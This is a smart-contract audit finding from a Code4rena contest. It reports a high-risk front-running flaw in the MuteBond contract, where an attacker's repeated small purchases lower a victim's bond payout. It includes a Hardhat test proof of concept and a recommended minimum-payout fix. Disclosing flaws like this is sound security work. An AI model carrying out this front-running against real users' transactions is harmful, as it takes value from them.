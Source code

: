 ## Tags

- bug
- 3 (High Risk)
- primary issue
- satisfactory
- selected for report
- sponsor confirmed
- edited-by-warden
- H-02

# [Attacker can front-run Bond buyer and make them buy it for a lower payout than expected](https://github.com/code-423n4/2023-03-mute-findings/issues/24) 

# Lines of code

https://github.com/code-423n4/2023-03-mute/blob/4d8b13add2907b17ac14627cfa04e0c3cc9a2bed/contracts/bonds/MuteBond.sol#L185-L187


# Vulnerability details

The `MuteBond` contract contains a feature in which after each purchase the `epochStart` increases by 5% of the time passed since `epochStart`, this (in most cases) lowers the bond's price (i.e. buyer gets less payout) for future purchases.
An attacker can exploit this feature to front-run a deposit/purchase tx and lower the victim's payout.
This can also happen by innocent users purchasing before the victim's tx is included in the blockchain.

Another (less likely) scenario in which this can happen is when the owner changes the config in a way that lowers the price (e.g. lowering max price, extending epoch duration), if the owner tx executes while a user's `deposit()` tx is in the mempool the user would end up with less payout than intended.

Side note: the term 'bond price' might be confusing since it refers to the payout the buyer gets divided by the value the buyer pays, so a higher price is actually in favor of the buyer.

## Impact
User ends up buying bond for a lower payout than intended.

## Proof of Concept
In the PoC below, an attacker manages to make the buyer purchase a bond at a price lower by 32% than intended.

File: `test/bonds.ts`
```typescript
  it('Front run PoC', async function () {
    // let price reach the max price
    await time.increase(60 * 60 * 24 * 7)

    // price when victim sends out the tx to the mempool
    var expectedPrice = await bondContract.bondPrice()

    const startPrice = new BigNumber(100).times(Math.pow(10,18))
    let minPurchasePayout = new BigNumber(Math.pow(10,16));
    // using dynamic price didn't work out so I'm using the lowest price
    var minPurchaseValue = minPurchasePayout.times(1e18).div(startPrice).plus(1);

    // attacker buys the lowest amount 20 times
    for(let i = 0; i< 20; i++){
      await bondContract.connect(buyer1).deposit(minPurchaseValue.toFixed(), buyer1.address, false)
    }

    var init_dmute = await dMuteToken.GetUnderlyingTokens(buyer1.address)
    let depositValue = new BigNumber(10).times(Math.pow(10,18)).toFixed();
    var price = await bondContract.connect(buyer1).deposit(depositValue, buyer1.address, false)
    var post_dmute = await dMuteToken.GetUnderlyingTokens(buyer1.address)

    var dmute_diff = new BigNumber(post_dmute.toString()).minus(init_dmute.toString());
    var actualPrice = dmute_diff.times(1e18).div(depositValue);

    var receipt = (await price.wait())
    // compare the expected price with the actual price
    // expected price = 200; actual price = 135.8; meaning actual price is ~68% of expected price
    console.log({expectedPrice, actualPrice:actualPrice.toString()});
  })
```

## Recommended Mitigation Steps
Add a min payout parameter so that users can specify the expected payout. The tx should revert if the actual payout is lower than expected.